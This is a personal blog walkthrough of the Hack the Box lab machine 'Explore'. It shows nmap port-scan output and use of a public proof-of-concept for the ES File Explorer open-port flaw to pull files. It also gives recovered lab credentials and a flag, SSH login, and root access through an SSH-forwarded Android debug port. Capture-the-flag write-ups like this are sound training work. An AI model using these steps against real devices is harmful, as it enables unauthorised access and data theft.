 ```yaml
---
title: Explore - Hack the Box
date: 2024-10-13 12:07:03 -0400
categories: [Hack the Box]
tags: [Walkthrough]
image: /assets/Explore.png
---
```

---
title: 2024-10-12-Explore - Hack the Box
date: 2024-10-13 12:01:04 -0400
categories: [Hack the Box]
tags: [Walkthrough]
image: /assets/2024-10-12-Explore.png
---
### Scan
```
./nmapAutomator.sh 10.10.10.247 All

Running all scans on 10.10.10.247

Host is likely running Linux
                                                                                                                                                                                             
                                                                                                                                                                                             
---------------------Starting Port Scan-----------------------                                                                                                                               
                                                                                                                                                                                             


PORT     STATE SERVICE
2222/tcp open  EtherNetIP-1



---------------------Starting Script Scan-----------------------
                                                                                                                                                                                             


PORT     STATE SERVICE VERSION
2222/tcp open  ssh     (protocol 2.0)
| ssh-hostkey: 
|_  2048 71:90:e3:a7:c9:5d:83:66:34:88:3d:eb:b4:c7:88:fb (RSA)
| fingerprint-strings: 
|   NULL: 
|_    SSH-2.0-SSH Server - Banana Studio




---------------------Starting Full Scan------------------------
                                                                                                                                                                                             


PORT      STATE SERVICE
2222/tcp  open  EtherNetIP-1
45567/tcp open  unknown
59777/tcp open  unknown



Making a script scan on extra ports: 45567, 59777
                                                                                                                                                                                             


PORT      STATE SERVICE VERSION
45567/tcp open  unknown
| fingerprint-strings: 
|   GenericLines: 
|     HTTP/1.0 400 Bad Request
|     Date: Tue, 08 Oct 2024 21:43:11 GMT
|     Content-Length: 22
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Invalid request line:
|   GetRequest: 
|     HTTP/1.1 412 Precondition Failed
|     Date: Tue, 08 Oct 2024 21:43:11 GMT
|     Content-Length: 0
|   HTTPOptions: 
|     HTTP/1.0 501 Not Implemented
|     Date: Tue, 08 Oct 2024 21:43:16 GMT
|     Content-Length: 29
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Method not supported: OPTIONS
|   Help: 
|     HTTP/1.0 400 Bad Request
|     Date: Tue, 08 Oct 2024 21:43:32 GMT
|     Content-Length: 26
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Invalid request line: HELP
|   RTSPRequest: 
|     HTTP/1.0 400 Bad Request
|     Date: Tue, 08 Oct 2024 21:43:16 GMT
|     Content-Length: 39
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     valid protocol version: RTSP/1.0
|   SSLSessionReq: 
|     HTTP/1.0 400 Bad Request
|     Date: Tue, 08 Oct 2024 21:43:32 GMT
|     Content-Length: 73
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Invalid request line: 
|     ?G???,???`~?
|     ??{????w????<=?o?
|   TLSSessionReq: 
|     HTTP/1.0 400 Bad Request
|     Date: Tue, 08 Oct 2024 21:43:32 GMT
|     Content-Length: 71
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Invalid request line: 
|     ??random1random2random3random4
|   TerminalServerCookie: 
|     HTTP/1.0 400 Bad Request
|     Date: Tue, 08 Oct 2024 21:43:32 GMT
|     Content-Length: 54
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Invalid request line: 
|_    Cookie: mstshash=nmap
59777/tcp open  http    Bukkit JSONAPI httpd for Minecraft game server 3.6.0 or older
|_http-title: Site doesn't have a title (text/plain).
```
### Enum
nmap thinks that 59777 is a minecraft server, but having done work with Bukkit in the past, I doubt that's the case. I did research to find out more about the port, and stumbled on ES File Explorer. I'm assuming this is our poe.
Theres a git repo https://github.com/fs0c131y/ESFileExplorerOpenPortVuln.git
we can peruse with `python3 poc.py --cmd list[Files,Pics,etc.] --host 10.10.10.247`
![Image](/assets/Screenshot 2024-10-08 at 7.22.00 PM.png)
creds jpg. grab it `python3 poc.py --get-file /storage/emulated/0/DCIM/creds.jpg --host 10.10.10.247`
![Image](/assets/Screenshot 2024-10-08 at 7.23.50 PM.png)
creds ;??![Image](/assets/Screenshot 2024-10-08 at 7.24.22 PM.png) `kristi:Kr1sT!5h@Rp3xPl0r3!`
ssh in `ssh kristi@10.10.10.247 -p 2222`
dir structure ![Image](/assets/Screenshot 2024-10-08 at 7.27.01 PM.png)
Going back to where photo was in `storage/emulated/0` we find user
USER: f32017174c7c7e8f50c6da52891ae250

### Priv Esc
we can see what ports are active with `netstat -tnlp`
we see 5555, which didnt show in our scans. and through research, this is a port for android debugging.
we can reconnect with the port forwarded to our machine using SSH 
`ssh -L 5555:localhost:5555 kristi@10.10.10.247 -p 2222`
![Image](/assets/Screenshot 2024-10-08 at 7.47.55 PM.png)
Then, on our machine again, `apt install adb` will give us the tools to interact with the software
`adb devices`
connect to the forwarded port `adb connect localhost:5555`
Drop a shell there`adb -s localhost:5555 shell`
We can abuse privileges by using `su` and `find / name root.txt 2>/dev/null` to locate the flag.
![Image](/assets/Screenshot 2024-10-08 at 7.48.13 PM.png)
